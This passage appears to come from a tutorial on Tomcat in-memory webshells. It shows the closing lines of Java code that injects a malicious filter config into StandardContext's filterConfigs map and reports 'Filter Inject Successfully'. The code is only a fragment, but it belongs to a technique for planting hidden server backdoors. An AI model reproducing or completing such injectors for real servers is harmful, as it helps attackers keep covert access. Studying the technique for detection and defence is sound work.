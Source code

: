 ```java

                // 向从StandardContext获取的FilterConfigs中添加恶意的FilterConfig
                filterConfigsMap.put(filterName, applicationFilterConfig1);
                response.getWriter().write("Filter Inject Successfully...");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/10.png)
